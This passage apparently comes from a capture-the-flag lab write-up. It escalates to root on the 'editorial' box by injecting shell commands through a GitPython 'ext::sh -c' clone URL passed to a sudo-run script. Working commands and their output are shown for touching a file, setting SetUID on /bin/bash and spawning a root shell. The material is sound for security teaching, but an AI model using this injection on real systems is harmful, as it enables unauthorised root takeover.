 ### Git 

```
prod@editorial:/home/dev/apps$ git --version
git version 2.34.1
```
Well, The script is not running the git, it's using git pkg GitPython.[You can read more about it here](https://github.com/gitpython-developers/GitPython)!
Looking at the the installed pkg, it shows the version of git GitPython.
```
prod@editorial:/home/dev/apps$ pip list | grep -i git
gitdb                 4.0.10
GitPython             3.1.29
```
![](https://www.codeitbro.in/wp-content/uploads/2024/10/avg-Python-User-Be-Like-608x474.webp)

### Exploiting GitPython

Looking around on the internet I found this writeup from [Snyk](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).
##### GitPython RCE POC
```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```
![](https://i.imgflip.com/487enr.jpg)

`sys.argv[1]`'s first argument is `clone_from` which is in the script, we can run command as root like this:

```
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
<SNIP>
Please make sure you have the correct access rights
and the repository exists.

prod@editorial:/home/dev/apps$ ls /tmp/pwned
/tmp/pwned
prod@editorial:/home/dev/apps$
```

I'll put a SetUID on `/bin/bash` to get a root shell.
```
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'
<SNIP>
Please make sure you have the correct access rights
and the repository exists.

prod@editorial:/home/dev/apps$ /bin/bash -p
bash-5.1# wc /root/root.txt
 1  1 33 /root/root.txt
bash-5.1# python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
root@editorial:/home/dev/apps#

```
![](https://i.imgflip.com/5ovz2l.jpg)
